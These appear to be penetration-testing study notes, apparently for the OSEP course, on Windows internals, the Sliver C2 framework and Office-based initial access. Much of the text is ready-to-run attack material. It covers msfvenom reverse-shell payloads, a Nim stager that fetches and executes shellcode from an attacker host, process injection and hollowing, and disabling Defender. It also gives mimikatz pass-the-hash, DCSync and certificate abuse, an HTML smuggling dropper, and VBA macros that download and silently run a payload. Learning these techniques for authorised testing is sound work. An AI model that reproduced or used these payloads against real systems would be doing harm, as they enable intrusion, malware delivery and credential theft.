1. Operating System and Programming Theory
1.1 Programming Language Levels
Programming languages range from low-level (assembly, C) to high-level (C#, Python, PowerShell). Low-level languages map closely to hardware instructions — assembly translates directly to CPU opcodes, while C provides thin abstractions over memory and registers. High-level languages prioritize productivity over direct hardware control.
At the lowest level, every program is a series of opcodes — numerical values the CPU fetches, decodes, and executes. x86 and x64 are the dominant architectures for Windows exploitation. ARM uses a reduced instruction set and is increasingly relevant for mobile and IoT targets.
| Level | Languages | Characteristics |
|---|---|---|
| Low-level | Assembly, C | Direct hardware access, manual memory management, architecture-dependent |
| High-level (compiled) | C#, Java, C++ | Compiled to intermediate bytecode or native code, strong typing |
| High-level (interpreted) | Python, PowerShell, JScript | Executed by runtime interpreter, dynamic typing, rapid development |
1.2 Managed vs Unmanaged Code
Unmanaged code (C, C++) compiles directly to native machine instructions and runs without a runtime intermediary. The developer is responsible for memory allocation and deallocation, which gives full control but introduces risks like buffer overflows and use-after-free vulnerabilities.
Managed code (C#, Java) compiles to intermediate bytecode — Microsoft Intermediate Language (MSIL) for .NET, or Java bytecode for the JVM. A runtime environment (the CLR for .NET, the JRE for Java) handles just-in-time (JIT) compilation, memory management, and type safety. .NET Core extends this model to Linux and macOS.
| Aspect | Unmanaged (C/C++) | Managed (C#/Java) |
|---|---|---|
| Compilation | Directly to native code | To bytecode, then JIT-compiled at runtime |
| Runtime | None (executes directly on OS) | CLR (.NET) or JVM (Java) |
| Memory | Manual (malloc/free) | Garbage-collected |
| Win32 API access | Direct function calls | P/Invoke or JNI wrappers |
| Exploit relevance | Shellcode, DLLs, kernel drivers | Offensive tooling (Rubeus, SharpHound, Seatbelt) |
1.3 Object-Oriented Programming Concepts
Offensive .NET tooling and DotNetToJscript payloads rely on object-oriented programming. A class is a blueprint that defines fields (variables) and methods (functions). A constructor initializes an object when it is instantiated. Access modifiers (public, private) control visibility — private members are inaccessible outside the class, which matters when using reflection to bypass restrictions.
public class ShellcodeRunner
{
private byte[] buf;
public ShellcodeRunner(byte[] shellcode)
{
this.buf = shellcode;
}
public void Execute()
{
// VirtualAlloc, Marshal.Copy, CreateThread
}
}1.4 Windows on Windows 64-bit (WOW64)
WOW64 is the compatibility subsystem that allows 32-bit applications to run on 64-bit Windows. It uses three core libraries: Wow64.dll (core emulation), Wow64Win.dll (thunking for GUI calls), and Wow64Cpu.dll (x86 CPU context switching). Understanding WOW64 is essential because shellcode bitness must match the target process architecture.
The file system redirects 32-bit processes transparently: when a 32-bit application accesses C:\Windows\System32, WOW64 redirects it to C:\Windows\SysWOW64 (which contains the 32-bit DLLs). Similarly, the registry reflects certain keys under Wow6432Node for 32-bit applications.
| Component | Contains | Accessed By |
|---|---|---|
C:\Windows\System32 | 64-bit binaries and DLLs | 64-bit processes (native) |
C:\Windows\SysWOW64 | 32-bit binaries and DLLs | 32-bit processes (via WOW64 redirection) |
HKLM\SOFTWARE | 64-bit registry keys | 64-bit processes |
HKLM\SOFTWARE\Wow6432Node | 32-bit registry keys | 32-bit processes (via registry reflection) |
Methodology
-
[Environment]::Is64BitProcess [Environment]::Is64BitOperatingSystem -
# 64-bit Meterpreter shellcode sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[listener-port] -f raw -o shell64.bin # 32-bit Meterpreter shellcode sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[listener-port] -f raw -o shell32.bin
1.5 Win32 APIs
The Win32 API is the primary interface between user-mode applications and the Windows operating system. Every offensive technique in this section — shellcode execution, process injection, token manipulation — ultimately calls Win32 API functions exported by system DLLs like kernel32.dll, ntdll.dll, and advapi32.dll.
Each API function has a documented prototype specifying its parameters and return type. Microsoft defines custom data types that map to standard C types. Functions that handle strings come in two variants: an A suffix (ANSI/ASCII, e.g., GetUserNameA) and a W suffix (Wide/Unicode UTF-16, e.g., GetUserNameW). Modern Windows uses Unicode internally, so W variants are preferred.
| Microsoft Type | C Equivalent | Description |
|---|---|---|
DWORD | unsigned int (32-bit) | 32-bit unsigned integer |
BOOL | int | Boolean (0 = FALSE, nonzero = TRUE) |
LPSTR | char* | Pointer to ANSI string |
LPWSTR | wchar_t* | Pointer to Unicode (UTF-16) string |
LPDWORD | unsigned int* | Pointer to DWORD |
HANDLE | void* | Opaque handle to a kernel object |
LPVOID | void* | Pointer to any type |
// GetUserNameA — retrieves the ANSI name of the current user
BOOL GetUserNameA(
LPSTR lpBuffer, // pointer to buffer receiving the name
LPDWORD pcbBuffer // pointer to variable with buffer size
);
// GetUserNameW — retrieves the Unicode name of the current user
BOOL GetUserNameW(
LPWSTR lpBuffer, // pointer to wide-char buffer
LPDWORD pcbBuffer // pointer to variable with buffer size
);1.6 Windows Registry
The Windows Registry is a hierarchical database storing OS and application configuration. Two root hives are most relevant: HKEY_CURRENT_USER (HKCU) stores per-user settings and is writable without elevation, making it useful for persistence. HKEY_LOCAL_MACHINE (HKLM) stores system-wide settings and typically requires administrator access to modify.
For 32-bit applications running under WOW64, certain HKLM keys are reflected under Wow6432Node. The registry can be enumerated with regedit (GUI), reg query (command line), or programmatically via Win32 APIs like RegOpenKeyEx and RegQueryValueEx.
Methodology
-
# Check user autorun entries (HKCU) reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" # Check system autorun entries (HKLM, requires admin) reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" # Check WOW64 reflected keys reg query "HKLM\SOFTWARE\Wow6432Node" -
# From a 32-bit PowerShell process: Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion"
2. Sliver Primer
Sliver is an open-source, cross-platform C2 framework developed by BishopFox. It supports multiple operators through a client/server architecture with multiplayer mode, and provides a wide array of post-exploitation capabilities including process injection, tunneling, and armory-based .NET tooling.
2.1 Server Setup
The Sliver server binary manages all operator connections, listeners, and implants. Download the pre-compiled binary from the GitHub releases page and configure the server before connecting any clients. Enabling multiplayer mode is required before any client can connect — without it, the server only accepts local console access.
| Component | Binary | Purpose |
|---|---|---|
| Server | sliver-server_linux | Manages listeners, implants, operator sessions |
| Client | sliver-client_linux | Operator console connecting to the server |
| Profile | .cfg file | Client certificate/config for authentication |
Methodology
-
wget -q https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-server_linux chmod +x ./sliver-server_linux ./sliver-server_linux -
[server] sliver > new-operator -n [operator-name] -l [listener-ip] -
[server] sliver > multiplayer -
wget -q https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-client_linux chmod +x ./sliver-client_linux ./sliver-client_linux import /[path-to-profile]/[operator-name]_[listener-ip].cfg ./sliver-client_linux
2.2 Listeners
Sliver supports multiple listener types for receiving implant callbacks. HTTP/HTTPS listeners are the most common and blend with legitimate web traffic. Staged TCP listeners stage shellcode through a TCP port that the stager connects to after initial execution, while the HTTP listener handles the ongoing C2 channel.
| Listener Type | Command | Use Case |
|---|---|---|
| HTTP (64-bit) | http -L [listener-ip] --lport [listener-port] | Primary C2 channel for x64 implants |
| HTTP (32-bit) | http -L [listener-ip] --lport [listener-port] | Primary C2 channel for x86 implants |
| Staged TCP | stage-listener --url tcp://[listener-ip]:[listener-port] --profile [profile-name] | Delivers shellcode payload to a stager |
| HTTP (lateral) | http -L [listener-ip] --lport [listener-port] | Separate listener for service-format lateral movement payloads |
Methodology
-
profiles new --http [listener-ip]:[listener-port] --format shellcode osep stage-listener --url tcp://[listener-ip]:[stage-port] --profile osep http -L [listener-ip] --lport [listener-port] -
profiles new --http [listener-ip]:[listener-port] --format shellcode -a x86 osepx86 stage-listener --url tcp://[listener-ip]:[stage-port] --profile osepx86 http -L [listener-ip] --lport [listener-port] -
profiles new --http [listener-ip]:[listener-port] --format service osep-lateral http -L [listener-ip] --lport [listener-port]
2.3 Payload Generation
Payloads are generated in two ways. Meterpreter shellcode is created via msfvenom and piped through an XOR encoder for use in custom shellcode runners — it connects back to Sliver's stage-listener. Sliver implants are generated natively with generate or generate beacon as standalone executables with built-in evasion. XOR encoding with key 2 is the standard approach for shellcode embedding in C# and PowerShell loaders.
| Format | Tool | Output | Use Case |
|---|---|---|---|
| Meterpreter shellcode (.bin) | msfvenom | .bin file | Custom shellcode runners / process injection (staged via Sliver) |
| Meterpreter XOR C# | msfvenom + python3 XOR pipe | byte[] array | Embed in C# loader, XOR-decode at runtime |
| Meterpreter XOR PowerShell | msfvenom + python3 XOR pipe | [Byte[]] $buf | PowerShell dropper scripts |
| Beacon EXE | generate beacon | .exe | Standalone implant with evasion and sleep/jitter |
Methodology
-
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=[stage-port] EXITFUNC=thread -f raw -o /home/kali/payloads/sliver.x64.bin -
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=[stage-port] EXITFUNC=thread -f raw | python3 -c 'key = 2; import sys; data = sys.stdin.buffer.read(); encrypted = bytes([b ^ key for b in data]); print(f"byte[] buf = new byte[{len(encrypted)}] {{ " + ", ".join([f"0x{b:02X}" for b in encrypted]) + " };")' -
sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=[stage-port] EXITFUNC=thread -f raw | xxd -ps -c 1 | python3 -c 'import sys; key = 2; print("[Byte[]] $buf = " + ",".join([f"0x{(int(x, 16) ^ key):02X}" for x in sys.stdin.read().split()]))' -
generate beacon --http [listener-ip]:[listener-port] --name sliver.obfuscated --os windows --seconds 5 --jitter 0 --evasion -
sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=[stage-port] EXITFUNC=thread -f raw -o /home/kali/payloads/sliver.x86.bin
2.4 Implant Duplication and Migration
After initial code execution, the implant process may be short-lived or easily detected. Migrating into a stable, long-running process such as explorer.exe or svchost.exe provides persistence within the session. Sliver offers three approaches: migrate for direct thread injection, execute-shellcode for injecting a shellcode file into a target PID, and hollow for process hollowing into a new spawned process.
| Technique | Command | Notes |
|---|---|---|
| Process migration | migrate -p [pid] | Best first option; works well against most targets |
| Shellcode injection | execute-shellcode -p [pid] [shellcode.bin] | Fallback if migrate fails; use -A 386 for x86 |
| Process hollowing | hollow svchost.exe [shellcode.bin] | Spawns new process and hollows it; recommended with AV |
| Shimming (skid) | execute-shellcode -S -r -I [interval] -p [pid] [shellcode.bin] | ShikataNai mode with retry and interval |
Methodology
-
sliver ([session-name]) > execute C:\\windows\\system32\\notepad.exe sliver ([session-name]) > ps -e notepad -
sliver ([session-name]) > ps -e explorer -
sliver ([session-name]) > migrate -p [pid] -
sliver ([session-name]) > execute-shellcode -S -r -I 10 -p [pid] /home/kali/payloads/sliver.x64.bin -
sliver ([session-name]) > execute-shellcode -A 386 -p [pid] /home/kali/payloads/sliver.x86.bin -
sliver ([session-name]) > hollow svchost.exe /home/kali/payloads/sliver.x64.bin
2.5 Armory Packages
The Sliver Armory (github.com/sliverarmory) provides a curated repository of pre-compiled .NET aliases and BOF extensions that install directly into the client. A single armory install all command installs all available aliases and extensions, making the full offensive toolkit immediately available without manual compilation.
Armory packages are split into two categories: aliases (pre-compiled .NET assemblies invoked like built-in commands) and extensions (BOFs or reflective DLLs for lightweight in-process execution). Most tools support an -i flag for inline execution within the implant process to bypass application whitelisting.
| Category | Tool | Purpose |
|---|---|---|
| Recon | sharpsh | AMSI/CLM bypass PowerShell runner; loads remote scripts |
| Recon | seatbelt | Host enumeration and misconfiguration checks |
| Recon | sharpup | Privilege escalation audit (unquoted paths, weak ACLs) |
| Recon | SharpView | PowerView equivalent .NET binary for AD enumeration |
| Recon | sharp-hound-4 | BloodHound data collection |
| Recon | SharpLAPS | Read LAPS passwords from LDAP |
| Credential Access | mimikatz | In-process Mimikatz via DLL injection |
| Credential Access | SharpSecDump | .NET port of impacket-secretsdump |
| Credential Access | Rubeus | Kerberos abuse (TGT, S4U, PTT, kerberoast) |
| Lateral Movement | SharpRDP | Execute commands over RDP |
| Lateral Movement | SharpMapExec | Mass SMB/WinRM command execution |
| Lateral Movement | sharp-smbexec | SMB-based lateral movement with PTH |
| Lateral Movement | SharpWMI | WMI-based remote execution |
| BOF (Extensions) | jump-psexec | PSExec lateral movement BOF |
| BOF (Extensions) | jump-wmiexec | WMI lateral movement BOF |
| BOF (Extensions) | hollow | Process hollowing BOF |
| BOF (Extensions) | sa-whoami | Runs whoami /all via BOF to avoid EDR shell alerts |
| BOF (Extensions) | nanodump | LSASS memory dump via BOF |
| BOF (Extensions) | inline-execute-assembly | Run .NET assemblies inline in the implant process |
| Persistence | SharPersist | Windows persistence via multiple techniques |
| Certificates | Certify | AD CS enumeration and exploitation |
| DPAPI | SharpDPAPI | DPAPI credential decryption |
Methodology
-
sliver > armory install all -
sliver ([session-name]) > sharpsh -t 20 -- '-c "whoami /all"' sliver ([session-name]) > sharpsh -t 20 -- '-c "$ExecutionContext.SessionState.LanguageMode"' -
sliver ([session-name]) > sharpsh -t 200 -- '-u http://[listener-ip]/[script.ps1] -c 1' -
sliver ([session-name]) > sharpsh -t 200 -- '-u http://[listener-ip]/[script.ps1] -c "[FunctionName]"' -
sliver ([session-name]) > sa-whoami -
sliver ([session-name]) > jump-psexec [target-hostname] [service-name] /home/kali/payloads/sliver.x64.exe //[target-hostname]/c$/[filename].exe -
sliver ([session-name]) > jump-wmiexec [target-hostname] 'powershell -enc [base64-payload]' -
sliver ([session-name]) > inline-execute-assembly /home/kali/tools/bins/csharp-files/[Tool].exe [args]
2.6 Nim Stager
Stagers are small loaders that request raw shellcode from a stage listener and run it in memory. The workflow is straightforward: fetch the staged payload, convert the response into bytes, allocate memory in the current process, copy the shellcode into that region, mark it executable, and start execution with a new thread.
-
import winim/lean import httpclient func toByteSeq*(str: string): seq[byte] {.inline.} = @(str.toOpenArrayByte(0, str.high)) proc DownloadExecute(url: string): void = var client = newHttpClient() var response: string = client.getContent(url) var shellcode: seq[byte] = toByteSeq(response) let tProcess = GetCurrentProcessId() var pHandle: HANDLE = OpenProcess(PROCESS_ALL_ACCESS, FALSE, tProcess) defer: CloseHandle(pHandle) let rPtr = VirtualAllocEx(pHandle, NULL, cast[SIZE_T](len(shellcode)), 0x3000, PAGE_EXECUTE_READ_WRITE) copyMem(rPtr, addr shellcode[0], len(shellcode)) let f = cast[proc() {.nimcall.}](rPtr) f() when defined(windows): when isMainModule: DownloadExecute("http://[attacker-ip]:[stage-port]")
2.7 Evasion and Admin Helpers
Use these commands after obtaining a privileged Sliver session. They cover AMSI/CLM-friendly PowerShell execution, FodHelper command delivery, Defender checks, and inline .NET execution under application whitelisting.
-
sliver (SESSION) > sharpsh -t 20 -- '-c "whoami /all"' sliver (SESSION) > sharpsh -t 20 -- '-c "$ExecutionContext.SessionState.LanguageMode"' sliver (SESSION) > sharpsh -t 200 -- '-u http://[listener-ip]/PowerView.ps1 -c "Get-DomainUser"' -
sliver (SESSION) > sharpsh -- -e -c [base64-New-Item-command] sliver (SESSION) > sharpsh -- -e -c [base64-DelegateExecute-command] sliver (SESSION) > execute -o powershell 'Start-Process "C:\Windows\System32\fodhelper.exe"' -
sliver (SESSION) > sharpsh -t 20 -- -c "Set-MpPreference -DisableIntrusionPreventionSystem $true -DisableIOAVProtection $true -DisableRealtimeMonitoring $true" sliver (SESSION) > sharpsh -t 20 -- '-c "Get-MpPreference | Select DisableRealtimeMonitoring"' -
sliver (SESSION) > execute-assembly -i /home/kali/tools/bins/csharp-files/Seatbelt.exe -group=all sliver (SESSION) > inline-execute-assembly /home/kali/tools/bins/csharp-files/SharpUp.exe audit sliver (SESSION) > execute-assembly -i /home/kali/tools/bins/csharp-files/Stracciatella.exe -c "[PowerShell command]"
2.8 Tunneling and Pivoting
Sliver supports targeted port forwarding, reverse port forwarding, SOCKS5 proxying, and Ligolo-assisted subnet routing. Choose the smallest pivot that exposes the service you need.
| Method | Use Case | Command Shape |
|---|---|---|
| portfwd | Expose one internal service locally | portfwd add -b 127.0.0.1:[local] -r [target]:[port] |
| rportfwd | Expose attacker service through implant host | rportfwd add -b 0.0.0.0:[remote] -r 0.0.0.0:[local] |
| socks5 | General proxychains pivot | socks5 start |
| Ligolo-ng | Transparent routed subnet access | Upload agent, start proxy, add route, start tunnel |
-
sliver (SESSION) > portfwd add -b 127.0.0.1:33890 -r [target-ip]:3389 xfreerdp /u:[user] /p:[password] /v:127.0.0.1:33890 /cert:ignore /dynamic-resolution -
sliver (SESSION) > socks5 start # /etc/proxychains4.conf: socks5 127.0.0.1 1081 proxychains4 -q nxc smb [internal-subnet]/24 -
sliver (SESSION) > upload /home/kali/tools/ligolo-ng/agent.exe c:/windows/tasks/agent.exe sliver (SESSION) > execute C:\\Windows\\tasks\\agent.exe -connect [listener-ip]:4444 -ignore-cert -retry
2.9 Credentials, Tokens, and Kerberos
Keep Sliver-specific credential and token workflows here: token creation, PTH, Rubeus aliases, ticket injection, SharpKatz, Certify, and SharpHound execution from the implant.
-
sliver (SESSION) > make-token -d [domain] -u [user] -p [password] sliver (SESSION) > mimikatz '"privilege::debug" "sekurlsa::pth /user:[user] /domain:[domain] /ntlm:[ntlm-hash]" "exit"' sliver (SESSION) > migrate -p [pid] sliver (SESSION) > sa-whoami -
sliver (SESSION) > sharphound-v4 -- --CollectionMethods All --ZipFileName loot.zip sliver (SESSION) > rubeus -- kerberoast /simple /nowrap sliver (SESSION) > execute-assembly /home/kali/tools/bins/csharp-files/SharpKatz.exe --Command dcsync --User [domain]\\krbtgt --Domain [domain] --DomainController [dc] -
sliver (SESSION) > execute-assembly /opt/tools/Certify.exe find /vulnerable sliver (SESSION) > execute-assembly /opt/tools/Certify.exe request /ca:[ca-host]\[ca-name] /template:[template-name] /altname:[da-user] sliver (SESSION) > execute-assembly /opt/tools/Rubeus.exe asktgt /user:[da-user] /certificate:cert.pfx /password:[pfx-password] /ptt
2.10 Lateral Movement
Sliver lateral movement depends on the current credential context and purpose-built profiles. Service-format implants support PsExec-style deployment, while BOFs such as jump-psexec and jump-wmiexec keep execution inline.
-
sliver > profiles new --http [listener-ip]:[listener-port] --format service osep-lateral sliver > http -L [listener-ip] --lport [listener-port] -
sliver (SESSION) > psexec -d Title -s Description -p osep-lateral [target] sliver > use [new-session-id] -
sliver (SESSION) > jump-psexec [target] AgentSvc /home/kali/payloads/sliver.x64.exe //[target]/c$/sliver.x64.exe sliver (SESSION) > jump-wmiexec [target] 'powershell -enc [base64-cradle]'
3. Client-Side Code Execution with Office
3.1 Droppers: Staged vs Non-Staged Payloads
A dropper is malware that delivers and executes a payload on a victim machine. Non-staged payloads embed all shellcode in a single self-contained file. Staged payloads contain only a compact first-stage callback that retrieves the full payload from the C2 server and executes it in memory, reducing the on-disk footprint and detection surface.
Both Sliver and msfvenom support staged and non-staged payloads. A non-staged payload is effectively self-contained, while a staged payload starts with a compact first-stage stager that fetches the remaining implant code over the network. In Sliver, this maps to standalone beacon generation versus a shellcode profile served through a stage-listener.
| Type | Characteristics | Sliver Equivalent |
|---|---|---|
| Non-staged | All code in one file; larger size; simpler delivery | generate beacon --http ... |
| Staged | Small first-stage stager; remaining code fetched at runtime; smaller footprint | profiles new --format shellcode + stage-listener |
Methodology
-
profiles new --http [listener-ip]:[listener-port] --format shellcode osep stage-listener --url tcp://[listener-ip]:[stage-port] --profile osep http -L [listener-ip] --lport [listener-port] -
# 64-bit raw shellcode for VBA/PS runner sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[stage-port] EXITFUNC=thread -f raw -o /var/www/html/sliver.x64.bin # Generate XOR-encoded shellcode as PowerShell byte array sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[stage-port] EXITFUNC=thread -f raw | xxd -ps -c 1 | python3 -c 'import sys; key = 2; print("[Byte[]] $buf = " + ",".join([f"0x{(int(x, 16) ^ key):02X}" for x in sys.stdin.read().split()]))' # Generate XOR-encoded shellcode as VBA array sudo msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[listener-ip] LPORT=[stage-port] EXITFUNC=thread -f vbapplication -
generate beacon --http [listener-ip]:[listener-port] --name [implant-name] --os windows --seconds 5 --jitter 0 --evasion -
import winim/lean import httpclient func toByteSeq*(str: string): seq[byte] {.inline.} = @(str.toOpenArrayByte(0, str.high)) proc DownloadExecute(url: string): void = var client = newHttpClient() var response: string = client.getContent(url) var shellcode: seq[byte] = toByteSeq(response) let tProcess = GetCurrentProcessId() var pHandle: HANDLE = OpenProcess(PROCESS_ALL_ACCESS, FALSE, tProcess) defer: CloseHandle(pHandle) let rPtr = VirtualAllocEx(pHandle, NULL, cast[SIZE_T](len(shellcode)), 0x3000, PAGE_EXECUTE_READ_WRITE) copyMem(rPtr, addr shellcode[0], len(shellcode)) let f = cast[proc() {.nimcall.}](rPtr) f() when defined(windows): when isMainModule: DownloadExecute("http://[attacker-ip]:[stage-port]")
3.2 HTML Smuggling
HTML smuggling uses JavaScript in a browser page to reconstruct and automatically download a file without the file ever transiting through network security controls as a recognizable attachment. The technique leverages the HTML5 anchor tag download attribute and the Blob API to assemble a file from an in-page Base64 string and trigger a download silently when the page loads.
The key advantage is that the payload bytes are stored inside the HTML page itself, encoded as Base64. The browser decodes and assembles the file locally, so proxies and mail gateways never see the binary content pass over the wire in its executable form.
| Component | Purpose |
|---|---|
window.atob(base64) | Decode Base64 string to binary |
new Uint8Array(len) | Create byte array from binary string |
new Blob([data], {type: 'octet/stream'}) | Create a binary blob from the byte array |
URL.createObjectURL(blob) | Create an in-memory URL pointing to the blob |
a.click() | Trigger download without user interaction |
window.navigator.msSaveBlob | Edge/IE fallback for blob download |
Methodology
-
# Generate staged shellcode loader as an exe sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=[listener-ip] LPORT=[listener-port] EXITFUNC=thread -f exe -o /var/www/html/payload.exe # Base64-encode and strip newlines base64 /var/www/html/payload.exe | tr -d '\n' -
# Save as /var/www/html/smuggle.html cat <<'EOF' > /var/www/html/smuggle.html <html> <body> <script> function base64ToArrayBuffer(base64) { var binary_string = window.atob(base64); var len = binary_string.length; var bytes = new Uint8Array(len); for (var i = 0; i < len; i++) { bytes[i] = binary_string.charCodeAt(i); } return bytes.buffer; } var file = '[base64-payload-string]'; var data = base64ToArrayBuffer(file); var blob = new Blob([data], {type: 'octet/stream'}); var fileName = 'update.exe'; var a = document.createElement('a'); document.body.appendChild(a); a.style = 'display: none'; var url = window.URL.createObjectURL(blob); a.href = url; a.download = fileName; a.click(); window.URL.revokeObjectURL(url); </script> </body> </html> EOF -
sudo service apache2 start # Victim navigates to: http://[listener-ip]/smuggle.html
3.3 VBA Macro Basics
Visual Basic for Applications (VBA) is the embedded scripting language in Microsoft Office products. Macros written in VBA execute automatically when a document is opened via the Document_Open() and AutoOpen() hooks. Both must be used together for redundancy across different Office versions.

Documents must be saved in a macro-enabled format (.doc or .docm) to persist VBA code. Opening such a document triggers a security warning; the attacker must convince the victim to click "Enable Content." In Office 2021 and Microsoft 365, documents downloaded from the Internet carry a Mark of the Web (MoTW) attribute that blocks macros entirely, requiring an additional social engineering step to unblock the file.






| VBA Element | Purpose | Example |
|---|---|---|
Sub / End Sub | Define a procedure | Sub MyMacro() |
Dim x As Type | Declare a variable | Dim str As String |
Document_Open() | Auto-run on document open | Triggers macro on open |
AutoOpen() | Redundant auto-run hook | Works in older Office versions |
Shell str, vbHide | Execute a command silently | Launches cmd.exe hidden |
CreateObject("Wscript.Shell").Run | Execute via WSH | Alternative launch method |
ActiveDocument.Path | Get current document directory | Used to locate downloaded files |
Methodology
-
' In the VBA editor (View > Macros > Create) Sub Document_Open() MyMacro End Sub Sub AutoOpen() MyMacro End Sub Sub MyMacro() Dim str As String str = "cmd.exe" Shell str, vbHide End Sub -
Sub Document_Open() MyMacro End Sub Sub AutoOpen() MyMacro End Sub Sub MyMacro() Dim str As String str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://[listener-ip]/payload.exe', 'payload.exe')" Shell str, vbHide Dim exePath As String exePath = ActiveDocument.Path & "\" & "payload.exe" Wait (2) Shell exePath, vbHide End Sub Sub Wait(n As Long) Dim t As Date t = Now Do DoEvents Loop Until Now >= DateAdd("s", n, t) End Sub -
sudo cp /path/to/payload.exe /var/www/html/ sudo service apache2 start # In Sliver console: http -L [listener-ip] --lport [listener-port]
3.4 Calling Win32 APIs from VBA
VBA can call Win32 APIs in unmanaged DLLs using the Declare statement (with the PtrSafe keyword required for 64-bit Office). C data types must be translated to their VBA equivalents: pointers map to LongPtr, integers map to Long, and strings map to String (passed ByVal). Reference types (pointer-to-value) are passed ByRef.
Calling Win32 APIs directly from VBA enables shellcode execution entirely within the Office process's memory space, avoiding writing any executable file to disk. The three core APIs for an in-memory shellcode runner are VirtualAlloc, RtlMoveMemory, and CreateThread, all exported from KERNEL32.dll.
| C Type | VBA Type | Passing Convention |
|---|---|---|
LPVOID / pointer | LongPtr | ByVal |
DWORD / SIZE_T | Long | ByVal |
LPSTR | String | ByVal |
LPDWORD (out param) | Long | ByRef |
BOOL | Long | Return value |
